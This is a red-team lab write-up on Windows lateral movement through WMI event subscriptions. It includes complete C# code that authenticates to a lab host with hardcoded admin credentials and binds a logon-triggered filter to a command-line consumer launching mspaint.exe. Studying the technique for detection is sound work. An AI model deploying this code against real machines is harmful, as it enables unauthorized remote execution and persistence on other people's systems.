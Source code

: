 ```yaml
---
layout: post
title: "lateral movement via wmi events"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement-via-wmi-events/
---
```


---
layout: post
title: "lateral movement via wmi events"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement-via-wmi-events/
---

# Lateral Movement via WMI Event Subscription

This is a quick lab to familiariaze with a lateral movement technique using WMI events, as described in [@domchell](https://twitter.com/domchell) aricle [I Like to Move It: Windows Lateral Movement Part 1 – WMI Event Subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) - go check it out for more details, including detection ideas.

See my other lab related to persistence using WMI events:

{% content-ref url="../persistence/t1084-abusing-windows-managent-instrumentation/" %}
[t1084-abusing-windows-managent-instrumentation](../persistence/t1084-abusing-windows-managent-instrumentation/)
{% endcontent-ref %}

## Walkthrough

The below C# code for WMI events based lateral movement does a couple of things:

| Line                              | Action                                                                                                                                                                                                                                                                             |
| --------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 29 - 33                           | Connects to the remote endpoint `192.168.56.105` using local admin credentials `spotless:123456`                                                                                                                                                                                   |
| 33 - 46                           | <p>Creates a new WMI filter <code>evilSpotlessFilter</code> on <code>192.168.56.105</code>. <br>It will get triggered when a new logon session is created on <code>192.168.56.105</code></p>                                                                                       |
| 49 - 52                           | <p>Creates a WMI consumer <code>evilSpotlessConsumer</code> on <code>192.168.56.105</code>. <br>This consumer executes <code>mspaint.exe</code> on <code>192.168.56.105</code>, when the filter <code>evilSpotlessFilter</code> is triggered (upon new logon session creation)</p> |
| 55 - 58                           | WMI filter `evilSpotlessFilter` and WMI consumer `evilSpotlessConsumer` are bound. In layman's terms, the system `192.168.56.105` is instructed to **DEFINITELY** fire `mspaint.exe` on each new logon session that is created on the system.                                      |

```csharp
// code completely stolen from @domchell article 
// https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
// slightly modified to accommodate this lab

using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management;

namespace wmisubscription_lateralmovement
{
    class Program
    {
        static void Main(string[] args)
        {

            // Connect to remote endpoint for WMI management
            string NAMESPACE = @"\\192.168.56.105\root\subscription";

            ConnectionOptions cOption = new ConnectionOptions();
            ManagementScope scope = null;
            scope = new ManagementScope(NAMESPACE, cOption);
            
            scope.Options.Username = "spotless";
            scope.Options.Password = "123456";
            scope.Options.Authority = string.Format("ntlmdomain:{0}", ".");
            
            scope.Options.EnablePrivileges = true;
            scope.Options.Authentication = AuthenticationLevel.PacketPrivacy;
            scope.Options.Impersonation = ImpersonationLevel.Impersonate;
            scope.Connect();

            // Create WMI event filter
            ManagementClass wmiEventFilter = new ManagementClass(scope, new ManagementPath("__EventFilter"), null);

            string query = "SELECT * FROM __InstanceCreationEvent Within 5 Where TargetInstance Isa 'Win32_LogonSession'";
            WqlEventQuery myEventQuery = new WqlEventQuery(query);

            ManagementObject myEventFilter = wmiEventFilter.CreateInstance();
            myEventFilter["Name"] = "evilSpotlessFilter";
            myEventFilter["Query"] = myEventQuery.QueryString;
            myEventFilter["QueryLanguage"] = myEventQuery.QueryLanguage;
            myEventFilter["EventNameSpace"] = @"root\cimv2";
            myEventFilter.Put();

            // Create WMI event consumer
            ManagementObject myEventConsumer = new ManagementClass(scope, new ManagementPath("CommandLineEventConsumer"), null).CreateInstance();
            myEventConsumer["Name"] = "evilSpotlessConsumer";
            myEventConsumer["ExecutablePath"] = "mspaint.exe";
            myEventConsumer.Put();

            // Bind filter and consumer
            ManagementObject  myBinder = new ManagementClass(scope, new ManagementPath("__FilterToConsumerBinding"), null).CreateInstance();
            myBinder["Filter"] = myEventFilter.Path.RelativePath;
            myBinder["Consumer"] = myEventConsumer.Path.RelativePath;
            myBinder.Put();

            // Cleanup
            // myEventFilter.Delete();
            // myEventConsumer.Delete();
            // myBinder.Delete();

        }
    }
}
```

## Observations

Once `connect` method is called, a couple of connections from the attacking machine (top right) are initiated to the target machine `192.168.56.105` (bottom right) over port TCP 135 (traffic receiver is svchost.exe as it's hosting the RPC service through which we are communicating):

![](<../../.gitbook/assets/image (655).png>)

After the code has executed, it will have created the WMI event filters, consumers and bind them on the target host `192.168.56.105`.

On the target host, we can check if the said filters and consumers were created like so:

```csharp
# view wmi filters
Get-WmiObject -Class __EventFilter -Namespace root\subscription

# view wmi consumers
Get-WmiObject -Class __EventConsumer -Namespace root\subscription

# view bindings
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```

Below shows output of the `evilSpotlessFilter` WMI filter we created on the target system:

![](<../../.gitbook/assets/image (656).png>)

## Demo

Below shows the WMI events based lateral movement technique in action:

* On the left, we compile and run the code that creates WMI event filters, consumers and binds them together
* In the top right corner - ther is a ProcMon that is set to capture when a new `mspaint.exe` process starts. In our case, it should start once there is a new logon session created on the system (remember, because of the `evilSpotlessFilter`)
* In the bottom right corner there is a powershell console initiating a new logon session with `runas.exe`. Once the authentication succeeds, a new logon session is created, cmd.exe is spawned and the WMI event filter `evilSpotlessFilter` is triggered and WMI event consumer `evilSpotlessConsumer` kicks off the `mspaint.exe`:

![](../../.gitbook/assets/wmi-events-lateralmovement.gif)

## References

{% embed url="https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/wmisdk/commandlineeventconsumer" %}

@spotheplanet
